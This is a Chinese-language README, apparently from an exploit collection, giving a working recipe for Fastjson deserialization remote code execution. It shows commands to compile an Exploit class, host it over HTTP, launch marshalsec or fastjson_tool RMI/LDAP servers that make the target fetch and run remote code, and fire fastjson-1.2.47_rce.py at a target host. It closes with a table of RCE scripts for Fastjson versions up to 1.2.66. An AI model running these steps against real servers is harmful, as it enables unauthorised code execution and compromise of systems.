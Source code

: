 ## 以 Fastjson 1.2.47 利用为例
### marshalsec-0.0.3-SNAPSHOT-all.jar 启用 RMI/LDAP
```
https://github.com/RandomRobbieBF/marshalsec-jar
```
编译Exploit.java生成Exploit.class
```
javac Exploit.java
```
python3 启一个 http 部署 Exploit.class
```
python3 -m http.server --bind 0.0.0.0 8888
```
marshalsec 开启 rmi
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://x.x.x.x:8888/#Exploit" 9999
```

### fastjson_tool.jar 启用 RMI/LDAP
[@wyzxxz](https://github.com/wyzxxz/fastjson_rce_tool)大佬的tools整合了rmi/ldap+命令执行,
```
java -cp fastjson_tool.jar fastjson.HRMIServer 127.0.0.1 9999 "touch /tmp/233"
```

### fastjson-1.2.47_rce.py
> ```
> +------------------------------------------------------------------------------------+
> +      RMIServer: rmi://ip:port/exp                                                                           +
> +      LDAPServer: ldap://ip:port/exp                                                                       +
> +------------------------------------------------------------------------------------+
> + USE: python3 <filename> <target-ip> <RMI/LDAPServer>                               +
> + EXP: python3 fastjson-1.2.47_rce.py http://1.1.1.1:8080/ ldap://2.2.2.2:88/Object  +
> + VER: fastjson<=1.2.47                                                              +
> +------------------------------------------------------------------------------------+
> ```

执行py脚本
- http://1.1.1.1:8080/ 为fastjson漏洞主机
- rmi://2.2.2.2:9999/Exploit 为rmi服务
```
python3 fastjson-1.2.47_rce.py http://1.1.1.1:8080/ rmi://2.2.2.2:9999/Exploit
```
<table>
<tr>
    <th>脚本名称</th>
    <th>脚本介绍</th>
    <th>脚本来源</th>
</tr>
<tr>
    <td>fastjson-1.2.24_rce.py</td>
    <td>fastjson 1.2.24 反序列化 RCE 漏洞</td>
    <td>https://github.com/zhzyker/exphub</td>
</tr>
<tr>
    <td>fastjson-1.2.41_rce.py</td>
    <td>Fastjson <=1.2.47反序列化RCE漏洞(CNVD‐2019‐22238)</td>
    <td>https://github.com/zhzyker/exphub</td>
</tr>
<tr>
    <td>fastjson-1.2.42_rce.py</td>
    <td>Fastjson <=1.2.47反序列化RCE漏洞(CNVD‐2019‐22238)</td>
    <td>https://github.com/zhzyker/exphub</td>
</tr>
<tr>
    <td>fastjson-1.2.43_rce.py</td>
    <td>Fastjson <=1.2.47反序列化RCE漏洞(CNVD‐2019‐22238)</td>
    <td>https://github.com/zhzyker/exphub</td>
</tr>
<tr>
    <td>fastjson-1.2.45_rce.py</td>
    <td>Fastjson <=1.2.47反序列化RCE漏洞(CNVD‐2019‐22238)</td>
    <td>https://github.com/zhzyker/exphub</td>
</tr>
<tr>
   <td>fastjson-1.2.47_rce.py</td>
    <td>Fastjson <=1.2.47反序列化RCE漏洞(CNVD‐2019‐22238)</td>
    <td>https://github.com/zhzyker/exphub</td>
</tr>
<tr>
    <td>fastjson-1.2.62_rce.py</td>
    <td>fastjson <=1.2.66 反序列化 RCE 漏洞</td>
    <td>https://github.com/zhzyker/exphub</td>
</tr>
<tr>
    <td>fastjson-1.2.66_rce.py</td>
    <td>fastjson <=1.2.66 反序列化 RCE 漏洞</td>
    <td>https://github.com/zhzyker/exphub</td>
</tr>
</table>

  
  
